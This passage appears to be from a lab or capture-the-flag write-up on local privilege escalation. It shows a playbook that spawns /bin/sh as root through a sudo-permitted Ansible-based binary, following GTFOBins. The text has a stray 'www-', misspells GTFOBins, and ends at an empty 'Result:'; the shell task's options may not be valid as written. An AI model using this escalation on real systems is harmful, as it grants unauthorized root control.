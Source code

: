 ```bash
#!/usr/bin/env ansible-playbook

---

- name: Parse templates

hosts: all

gather_facts: false

serial: 1

connection: local

tasks:

- name: Generate template data

template:

src: /etc/template.j2

dest: /tmp/template.out

www-
```

We can search in [CTFOBINS](https://gtfobins.github.io/gtfobins/ansible-playbook/) for a way to exploit this binary for privilege escalation.

By executing Ansible Playbooks with root permissions and no restrictions, we can create a malicious playbook that runs a root shell:

```bash
TF=$(mktemp)
cat << EOF > $TF
- hosts: localhost
  gather_facts: no
  tasks:
    - name: Execute root shell
      shell: /bin/sh
      stdin_open: yes
      tty: yes
EOF
```

Once the file is created, we execute the binary:

```bash
sudo /usr/local/bin/templater $TF
```

Result:
